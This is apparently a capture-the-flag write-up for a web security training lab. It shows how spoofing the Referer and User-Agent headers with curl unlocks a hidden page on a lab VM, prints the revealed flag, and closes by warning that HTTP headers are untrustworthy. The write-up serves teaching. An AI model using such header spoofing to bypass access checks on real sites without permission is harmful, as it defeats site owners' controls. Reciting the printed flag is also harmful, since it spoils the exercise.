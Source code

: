 # Solution

```
curl --referer "https://www.nsa.gov/" --user-agent "ft_bornToSec" "http://192.168.56.103/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" | grep flag
```


When we click on `© BornToSec` at the bottom of the page, we get redirected to `http://192.168.56.103/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f`  

In the source code, we see the following lines:  
```
You must come from : "https://www.nsa.gov/".
...
Let's use this browser : "ft_bornToSec". It will help you a lot.
```  

So we must make the website believe that we landed to this page from the nsa website, and that we are accessing it through a browser named "ft_bornToSec".  

In the Headers (Network tab, index.php), we have the following:  
![headers](headers.png)  

The Referer is set at `http://192.168.56.103/`, because we were redirected to this page from the home page.  
`The Referer field in the HTTP header identifies the page that led to the current web page. When a user clicks on a link on web page A to go to web page B, the referer header string for page B will contain the URL of page A.`

The browser is stored in 'User-Agent'.  
`A user agent is nothing but software agent that is acting on behalf of a user. When you use Firefox on Ubuntu Linux, it sends the “Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0” as a user agent to the web server`

We need to modify these 2 fields.  

```
$ curl --referer Referer_URL target_URL ...
$ curl --user-agent "user-agent-name-here" target_URL
```

# Solution

```
curl --referer "https://www.nsa.gov/" --user-agent "ft_bornToSec" "http://192.168.56.103/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" | grep flag

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6041    0  6041    0     0  5290k      0 --:--:-- --:--:-- --:--:-- 5899k
<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">

```  


We should not use information coming from the HTTP Headers, as they can be altered by a third-party easily.